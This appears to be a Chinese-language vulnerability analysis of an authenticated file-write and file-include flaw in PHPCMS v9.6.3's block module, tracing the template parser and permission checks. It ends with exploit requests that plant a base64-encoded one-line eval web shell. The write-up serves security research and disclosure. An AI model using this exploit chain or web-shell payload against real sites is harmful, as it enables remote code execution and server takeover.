




PHPCMSv9.6.3 文件包含漏洞分析
PHPCMSV9.6.3 文件包含漏洞分析
代码审计
文件包含常出现在 include()、require()、include_once()、require_once() 等，审计时可以直接通过正则的方式追踪危险段 phpcms v9.6.3 的任意文件包含出现在 phpcms/modules/block/block_admin.php 267行
include $filepath;分析 $filepath 变量，发现代码中不仅做了 include 包含文件，还在这之前先创建文件并写入内容，且内容可控
public function public_view() {
if ($data['type'] == 1) {
} elseif ($data['type'] == 2) {
$template = isset($_POST['template']) && trim($_POST['template']) ? trim($_POST['template']) : '';
//$template 由用户输入，可控
...
$str = $tpl->template_parse(new_stripslashes($template));
//对 $template 进行过滤
$filepath = CACHE_PATH.'caches_template'.DIRECTORY_SEPARATOR.'block'.DIRECTORY_SEPARATOR.'tmp_'.$id.'.php';
//定义文件路径
$dir = dirname($filepath);
if(!is_dir($dir)) {
@mkdir($dir, 0777, true);
//创建$dir
}
if (@file_put_contents($filepath,$str)) { //文件写入
ob_start();
include $filepath;
//包含文件
$html = ob_get_contents();
ob_clean();
@unlink($filepath);
}id 在类方法开头会强制转为 int 类型，文件路径是不可控，但对漏洞不影响；template 完全可控的，在 if 判断中进行文件写入，写入成功则包含文件。看看对 $template 过滤 global.func.php::new_stripslaches() 对转义后的字符去除转义，这根本不是过滤
//phpcms/libs/functions/global.func.php
function new_stripslashes($string) {
if(!is_array($string)) return stripslashes($string);
foreach($string as $key => $val) $string[$key] = new_stripslashes($val);
return $string;
}以及 template_parse()，简单的正则替换，为指定格式的代码换成 的形式
//phpcms/libs/classes/template_cache.class.php
public function template_parse($str) {
$str = preg_replace ( "/\{template\s+(.+)\}/", "<?php include template(\\1); ?>", $str );
$str = preg_replace ( "/\{include\s+(.+)\}/", "<?php include \\1; ?>", $str );
$str = preg_replace ( "/\{php\s+(.+)\}/", "<?php \\1?>", $str );
$str = preg_replace ( "/\{if\s+(.+?)\}/", "<?php if(\\1) { ?>", $str );
$str = preg_replace ( "/\{else\}/", "<?php } else { ?>", $str );
$str = preg_replace ( "/\{elseif\s+(.+?)\}/", "<?php } elseif (\\1) { ?>", $str );
$str = preg_replace ( "/\{\/if\}/", "<?php } ?>", $str );
//for 循环
$str = preg_replace("/\{for\s+(.+?)\}/","<?php for(\\1) { ?>",$str);
$str = preg_replace("/\{\/for\}/","<?php } ?>",$str);
//++ --
$str = preg_replace("/\{\+\+(.+?)\}/","<?php ++\\1; ?>",$str);
$str = preg_replace("/\{\-\-(.+?)\}/","<?php ++\\1; ?>",$str);
$str = preg_replace("/\{(.+?)\+\+\}/","<?php \\1++; ?>",$str);
$str = preg_replace("/\{(.+?)\-\-\}/","<?php \\1--; ?>",$str);
$str = preg_replace ( "/\{loop\s+(\S+)\s+(\S+)\}/", "<?php \$n=1;if(is_array(\\1)) foreach(\\1 AS \\2) { ?>", $str );
$str = preg_replace ( "/\{loop\s+(\S+)\s+(\S+)\s+(\S+)\}/", "<?php \$n=1; if(is_array(\\1)) foreach(\\1 AS \\2 => \\3) { ?>", $str );
$str = preg_replace ( "/\{\/loop\}/", "<?php \$n++;}unset(\$n); ?>", $str );
$str = preg_replace ( "/\{([a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff:]*\(([^{}]*)\))\}/", "<?php echo \\1;?>", $str );
$str = preg_replace ( "/\{\\$([a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff:]*\(([^{}]*)\))\}/", "<?php echo \\1;?>", $str );
$str = preg_replace ( "/\{(\\$[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*)\}/", "<?php echo \\1;?>", $str );
$str = preg_replace_callback("/\{(\\$[a-zA-Z0-9_\[\]\'\"\$\x7f-\xff]+)\}/s", array($this, 'addquote'),$str);
$str = preg_replace ( "/\{([A-Z_\x7f-\xff][A-Z0-9_\x7f-\xff]*)\}/s", "<?php echo \\1;?>", $str );
$str = preg_replace_callback("/\{pc:(\w+)\s+([^}]+)\}/i", array($this, 'pc_tag_callback'), $str);
$str = preg_replace_callback("/\{\/pc\}/i", array($this, 'end_pc_tag'), $str);
$str = "<?php defined('IN_PHPCMS') or exit('No permission resources.'); ?>" . $str;
return $str;
}这里将 {php.*} 格式替换为 <?php.*?> 格式，也就是说即使题目过滤了 <? 这里也能直接绕过
str = preg_replace ( "/\{php\s+(.+)\}/", "<?php \\1?>", $str );最后将 “” 拼接进 $str 之前并返回，但这不影响漏洞
$str = "<?php defined('IN_PHPCMS') or exit('No permission resources.'); ?>" . $str;
return $str; 所以这里任意文件包含完全可行！再看逻辑与权限校验部分 block_admin 构造方法中直接静态调用父类的构造方法，跟进父类看看
class block_admin extends admin {
private $db, $siteid, $priv_db, $history_db, $roleid;
public function __construct() {
$this->db = pc_base::load_model('block_model');
$this->priv_db = pc_base::load_model('block_priv_model');
$this->history_db = pc_base::load_model('block_history_model');
$this->roleid = $_SESSION['roleid'];
$this->siteid = $this->get_siteid();
parent::__construct();
}在其父类 admin 构造方法中，做了许多 admin 用户登录校验工作，因此必须先登录到 admin 后台，并获得 pc_hash
//phpcms/modules/admin/classes/admin.class.php
public function __construct() {
self::check_admin(); //判断用户是否已经登陆
=>//admin.class.php
final public function check_admin() {
// 如果是 admin/index/login 或 admin/index/public_card 这类免登录接口，直接放行
if(ROUTE_M =='admin' && ROUTE_C =='index' && in_array(ROUTE_A, array('login', 'public_card'))) {
return true;
} else {
// 检查当前会话是否有用户 ID 和角色 ID
$userid = param::get_cookie('userid');
if(!isset($_SESSION['userid']) || !isset($_SESSION['roleid'])
|| !$_SESSION['userid'] || !$_SESSION['roleid']
|| $userid != $_SESSION['userid'])
// 条件不满足，说明未登录，跳转登录页
showmessage(L('admin_login'),'?m=admin&c=index&a=login');
}
}
self::check_priv(); //权限判断
pc_base::load_app_func('global','admin');
if (!module_exists(ROUTE_M)) showmessage(L('module_not_exists'));
self::manage_log(); //记录日志
self::check_ip(); //后台IP禁止判断
self::lock_screen(); //检查锁屏状态
self::check_hash(); //检查hash值，验证用户数据安全性
=>
final private function check_hash() {
if(preg_match('/^public_/', ROUTE_A)
|| ROUTE_M =='admin' && ROUTE_C =='index'
|| in_array(ROUTE_A, array('login'))) {
return true;
}
// GET 提交时验证 pc_hash
if(isset($_GET['pc_hash']) && $_SESSION['pc_hash'] != ''
&& ($_SESSION['pc_hash'] == $_GET['pc_hash'])) {
return true;
// POST 提交时验证 pc_hash
} elseif(isset($_POST['pc_hash']) && $_SESSION['pc_hash'] != ''
&& ($_SESSION['pc_hash'] == $_POST['pc_hash'])) {
return true;
} else {
// 验证失败
showmessage(L('hash_check_false'),HTTP_REFERER);
}
}
if(pc_base::load_config('system','admin_url') && $_SERVER["HTTP_HOST"]!= pc_base::load_config('system','admin_url')) {
Header("http/1.1 403 Forbidden");
exit('No permission resources.');
}
}在 public_view 开头做了一次检测，判断 $id 是否存在，如果不存在则返回 nofound，且查出的数据库数据中 type 需为 2 才能进入 elseif 内部触发漏洞
public function public_view() {
$id = isset($_GET['id']) && intval($_GET['id']) ? intval($_GET['id']) : exit('0');
if (!$data = $this->db->get_one(array('id'=>$id))) {
showmessage(L('nofound'));
}
if ($data['type'] == 1) {
exit('<script type="text/javascript">parent.showblock('.$id.', \''.str_replace("\r\n", '', $_POST['data']).'\')</script>');
} elseif ($data['type'] == 2) {但这个表怎么是空的？也许默认就是为空

public function add() {
$pos = isset($_GET['pos']) && trim($_GET['pos']) ? trim($_GET['pos']) : showmessage(L('illegal_operation'));
if (isset($_POST['dosubmit'])) {
$name = isset($_POST['name']) && trim($_POST['name']) ? trim($_POST['name']) : showmessage(L('illegal_operation'), HTTP_REFERER);
$type = isset($_POST['type']) && intval($_POST['type']) ? intval($_POST['type']) : 1;
//判断名称是否已经存在
if ($this->db->get_one(array('name'=>$name))) {
showmessage(L('name').L('exists'), HTTP_REFERER);
}
if ($id = $this->db->insert(array('name'=>$name, 'pos'=>$pos, 'type'=>$type, 'siteid'=>$this->siteid), true)) {
...
} else {
}
} else {
...
}
}insert 追进去就不写了，依照 phpcms 框架数据库操作写法，依次是 block_admin.php -> model.class.php -> db_mysqli.class.php，最后肯定是插入数据 只需要提供 pos、dosubmit、name、type 即可直接添加，其中 type 必须为 2，因为我们要走进 elseif 内部，其他随意不为 false 就行 到这里分析就结束了，这个漏洞简单且危害大，只需要添加一条数据即可利用漏洞，没有任何过滤，同类方法下刚好提供 file_put_contents 和 include 直接文件写入+文件包含一步到位
漏洞验证
先往 v9_block 表内添加一条数据
/index.php?id=1&m=block&c=block_admin&a=add&XDEBUG_SESSION_START=13013&pc_hash=uWIbNs&pos=1
POST:name=a&type=2&dosubmit=1
/index.php?id=1&m=block&c=block_admin&a=public_view&XDEBUG_SESSION_START=13013&pc_hash=uWIbNs
POST：template=<?php file_put_contents('L1nJ3.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWzBdKTs/Pg==')); ?> 